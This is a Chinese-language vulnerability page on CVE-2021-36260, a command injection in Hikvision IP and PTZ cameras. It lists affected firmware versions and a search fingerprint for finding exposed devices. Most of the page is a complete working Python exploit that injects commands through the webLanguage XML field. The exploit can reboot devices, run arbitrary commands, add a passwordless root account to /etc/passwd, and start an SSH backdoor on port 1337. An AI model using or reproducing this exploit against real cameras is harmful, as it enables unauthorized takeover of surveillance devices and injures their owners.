

Hikvision DS/IDS/IPC 等设备 远程命令执行漏洞 CVE-2021-36260¶
漏洞描述¶
海康威视部分产品中的web模块存在一个命令注入漏洞，由于对输入参数校验不充分，攻击者可以发送带有恶意命令的报文到受影响设备，成功利用此漏洞可以导致命令执行。海康威视已发布版本修复该漏洞
漏洞影响¶
- 易受攻击的网络摄像机固件
| 产品类型 | 影响版本 |
|---|---|
| IPC_E0 | IPC_E0_CN_STD_5.4.6_180112 |
| IPC_E1 | 未知 |
| IPC_E2 | IPC_E2_EN_STD_5.5.52_180620 |
| IPC_E4 | 未知 |
| IPC_E6 | IPCK_E6_EN_STD_5.5.100_200226 |
| IPC_E7 | IPCK_E7_EN_STD_5.5.120_200604 |
| IPC_G3 | IPC_G3_EN_STD_5.5.160_210416 |
| IPC_G5 | IPC_G5_EN_STD_5.5.113_210317 |
| IPC_H1 | IPC_H1_EN_STD_5.4.61_181204 |
| IPC_H5 | IPCP_H5_EN_STD_5.5.85_201120 |
| IPC_H8 | Factory installed firmware mid 2021 |
| IPC_R2 | IPC_R2_EN_STD_V5.4.81_180203 |
- 易受攻击的 PTZ 摄像机固件
| 产品类型 | 影响版本 |
|---|---|
| IPD_E7 | IPDEX_E7_EN_STD_5.6.30_210526 |
| IPD_G3 | IPDES_G3_EN_STD_5.5.42_210106 |
| IPD_H5 | IPD_H5_EN_STD_5.5.41_200911 |
| IPD_H7 | IPD_H7_EN_STD_5.5.40_200721 |
| IPD_H8 | IPD_H8_EN_STD_5.7.1_210619 |
- 易受攻击的旧固件
| 产品类型 | 影响版本 |
|---|---|
| IPC_R7 | 5.4.x |
| IPD_R7 | 5.4.x |
| IPC_G0 | 5.4.x |
| IPC_H3 | 5.4.x |
| IPD_H3 | 5.4.x |
- OEM 固件
网络测绘¶
"671-1e0-587ec4a1"
漏洞复现¶
登录页面
基于POC执行以下命令
python CVE-2021-36260.py --rhost 127.0.0.1 --rport 8081 --cmd "ls"

漏洞POC¶
# Exploit Title: Hikvision Web Server Build 210702 - Command Injection
# Exploit Author: bashis
# Vendor Homepage: https://www.Hikvision.com/
# Version: 1.0
# CVE: CVE-2021-36260
# Reference: https://watchfulip.github.io/2021/09/18/Hikvision-IP-Camera-Unauthenticated-RCE.html
# All credit to Watchful_IP
#!/usr/bin/env python3
"""
Note:
1) This code will _not_ verify if remote is Hikvision device or not.
2) Most of my interest in this code has been concentrated on how to
reliably detect vulnerable and/or exploitable devices.
Some devices are easy to detect, verify and exploit the vulnerability,
other devices may be vulnerable but not so easy to verify and exploit.
I think the combined verification code should have very high accuracy.
3) 'safe check' (--check) will try write and read for verification
'unsafe check' (--reboot) will try reboot the device for verification
[Examples]
Safe vulnerability/verify check:
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check
Safe and unsafe vulnerability/verify check:
(will only use 'unsafe check' if not verified with 'safe check')
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check --reboot
Unsafe vulnerability/verify check:
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --reboot
Launch and connect to SSH shell:
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --shell
Execute command:
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd "ls -l"
Execute blind command:
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd_blind "reboot"
$./CVE-2021-36260.py -h
[*] Hikvision CVE-2021-36260
[*] PoC by bashis <mcw noemail eu> (2021)
usage: CVE-2021-36260.py [-h] --rhost RHOST [--rport RPORT] [--check]
[--reboot] [--shell] [--cmd CMD]
[--cmd_blind CMD_BLIND] [--noverify]
[--proto {http,https}]
optional arguments:
-h, --help show this help message and exit
--rhost RHOST Remote Target Address (IP/FQDN)
--rport RPORT Remote Target Port
--check Check if vulnerable
--reboot Reboot if vulnerable
--shell Launch SSH shell
--cmd CMD execute cmd (i.e: "ls -l")
--cmd_blind CMD_BLIND
execute blind cmd (i.e: "reboot")
--noverify Do not verify if vulnerable
--proto {http,https} Protocol used
$
"""
import os
import argparse
import time
import requests
from requests import packages
from requests.packages import urllib3
from requests.packages.urllib3 import exceptions
class Http(object):
def __init__(self, rhost, rport, proto, timeout=60):
super(Http, self).__init__()
self.rhost = rhost
self.rport = rport
self.proto = proto
self.timeout = timeout
self.remote = None
self.uri = None
""" Most devices will use self-signed certificates, suppress any warnings """
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
self.remote = requests.Session()
self._init_uri()
self.remote.headers.update({
'Host': f'{self.rhost}:{self.rport}',
'Accept': '*/*',
'X-Requested-With': 'XMLHttpRequest',
'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
'Accept-Encoding': 'gzip, deflate',
'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
})
"""
self.remote.proxies.update({
# 'http': 'http://127.0.0.1:8080',
})
"""
def send(self, url=None, query_args=None, timeout=5):
if query_args:
"""Some devices can handle more, others less, 22 bytes seems like a good compromise"""
if len(query_args) > 22:
print(f'[!] Error: Command "{query_args}" to long ({len(query_args)})')
return None
"""This weird code will try automatically switch between http/https
and update Host
"""
try:
if url and not query_args:
return self.get(url, timeout)
else:
data = self.put('/SDK/webLanguage', query_args, timeout)
except requests.exceptions.ConnectionError:
self.proto = 'https' if self.proto == 'http' else 'https'
self._init_uri()
try:
if url and not query_args:
return self.get(url, timeout)
else:
data = self.put('/SDK/webLanguage', query_args, timeout)
except requests.exceptions.ConnectionError:
return None
except requests.exceptions.RequestException:
return None
except KeyboardInterrupt:
return None
"""302 when requesting http on https enabled device"""
if data.status_code == 302:
redirect = data.headers.get('Location')
self.uri = redirect[:redirect.rfind('/')]
self._update_host()
if url and not query_args:
return self.get(url, timeout)
else:
data = self.put('/SDK/webLanguage', query_args, timeout)
return data
def _update_host(self):
if not self.remote.headers.get('Host') == self.uri[self.uri.rfind('://') + 3:]:
self.remote.headers.update({
'Host': self.uri[self.uri.rfind('://') + 3:],
})
def _init_uri(self):
self.uri = '{proto}://{rhost}:{rport}'.format(proto=self.proto, rhost=self.rhost, rport=str(self.rport))
def put(self, url, query_args, timeout):
"""Command injection in the <language> tag"""
query_args = '<?xml version="1.0" encoding="UTF-8"?>' \
f'<language>$({query_args})</language>'
return self.remote.put(self.uri + url, data=query_args, verify=False, allow_redirects=False, timeout=timeout)
def get(self, url, timeout):
return self.remote.get(self.uri + url, verify=False, allow_redirects=False, timeout=timeout)
def check(remote, args):
"""
status_code == 200 (OK);
Verified vulnerable and exploitable
status_code == 500 (Internal Server Error);
Device may be vulnerable, but most likely not
The SDK webLanguage tag is there, but generate status_code 500 when language not found
I.e. Exist: <language>en</language> (200), not exist: <language>EN</language> (500)
(Issue: Could also be other directory than 'webLib', r/o FS etc...)
status_code == 401 (Unauthorized);
Defiantly not vulnerable
"""
if args.noverify:
print(f'[*] Not verifying remote "{args.rhost}:{args.rport}"')
return True
print(f'[*] Checking remote "{args.rhost}:{args.rport}"')
data = remote.send(url='/', query_args=None)
if data is None:
print(f'[-] Cannot establish connection to "{args.rhost}:{args.rport}"')
return None
print('[i] ETag:', data.headers.get('ETag'))
data = remote.send(query_args='>webLib/c')
if data is None or data.status_code == 404:
print(f'[-] "{args.rhost}:{args.rport}" do not looks like Hikvision')
return False
status_code = data.status_code
data = remote.send(url='/c', query_args=None)
if not data.status_code == 200:
"""We could not verify command injection"""
if status_code == 500:
print(f'[-] Could not verify if vulnerable (Code: {status_code})')
if args.reboot:
return check_reboot(remote, args)
else:
print(f'[+] Remote is not vulnerable (Code: {status_code})')
return False
print('[!] Remote is verified exploitable')
return True
def check_reboot(remote, args):
"""
We sending 'reboot', wait 2 sec, then checking with GET request.
- if there is data returned, we can assume remote is not vulnerable.
- If there is no connection or data returned, we can assume remote is vulnerable.
"""
if args.check:
print('[i] Checking if vulnerable with "reboot"')
else:
print(f'[*] Checking remote "{args.rhost}:{args.rport}" with "reboot"')
remote.send(query_args='reboot')
time.sleep(2)
if not remote.send(url='/', query_args=None):
print('[!] Remote is vulnerable')
return True
else:
print('[+] Remote is not vulnerable')
return False
def cmd(remote, args):
if not check(remote, args):
return False
data = remote.send(query_args=f'{args.cmd}>webLib/x')
if data is None:
return False
data = remote.send(url='/x', query_args=None)
if data is None or not data.status_code == 200:
print(f'[!] Error execute cmd "{args.cmd}"')
return False
print(data.text)
return True
def cmd_blind(remote, args):
"""
Blind command injection
"""
if not check(remote, args):
return False
data = remote.send(query_args=f'{args.cmd_blind}')
if data is None or not data.status_code == 500:
print(f'[-] Error execute cmd "{args.cmd_blind}"')
return False
print(f'[i] Try execute blind cmd "{args.cmd_blind}"')
return True
def shell(remote, args):
if not check(remote, args):
return False
data = remote.send(url='/N', query_args=None)
if data.status_code == 404:
print(f'[i] Remote "{args.rhost}" not pwned, pwning now!')
data = remote.send(query_args='echo -n P::0:0:W>N')
if data.status_code == 401:
print(data.headers)
print(data.text)
return False
remote.send(query_args='echo :/:/bin/sh>>N')
remote.send(query_args='cat N>>/etc/passwd')
remote.send(query_args='dropbear -R -B -p 1337')
remote.send(query_args='cat N>webLib/N')
else:
print(f'[i] Remote "{args.rhost}" already pwned')
print(f'[*] Trying SSH to {args.rhost} on port 1337')
os.system(f'stty echo; stty iexten; stty icanon; \
ssh -o StrictHostKeyChecking=no -o LogLevel=error -o UserKnownHostsFile=/dev/null \
P@{args.rhost} -p 1337')
def main():
print('[*] Hikvision CVE-2021-36260\n[*] PoC by bashis <mcw noemail eu> (2021)')
parser = argparse.ArgumentParser()
parser.add_argument('--rhost', required=True, type=str, default=None, help='Remote Target Address (IP/FQDN)')
parser.add_argument('--rport', required=False, type=int, default=80, help='Remote Target Port')
parser.add_argument('--check', required=False, default=False, action='store_true', help='Check if vulnerable')
parser.add_argument('--reboot', required=False, default=False, action='store_true', help='Reboot if vulnerable')
parser.add_argument('--shell', required=False, default=False, action='store_true', help='Launch SSH shell')
parser.add_argument('--cmd', required=False, type=str, default=None, help='execute cmd (i.e: "ls -l")')
parser.add_argument('--cmd_blind', required=False, type=str, default=None, help='execute blind cmd (i.e: "reboot")')
parser.add_argument(
'--noverify', required=False, default=False, action='store_true', help='Do not verify if vulnerable'
)
parser.add_argument(
'--proto', required=False, type=str, choices=['http', 'https'], default='http', help='Protocol used'
)
args = parser.parse_args()
remote = Http(args.rhost, args.rport, args.proto)
try:
if args.shell:
shell(remote, args)
elif args.cmd:
cmd(remote, args)
elif args.cmd_blind:
cmd_blind(remote, args)
elif args.check:
check(remote, args)
elif args.reboot:
check_reboot(remote, args)
else:
parser.parse_args(['-h'])
except KeyboardInterrupt:
return False
if __name__ == '__main__':
main()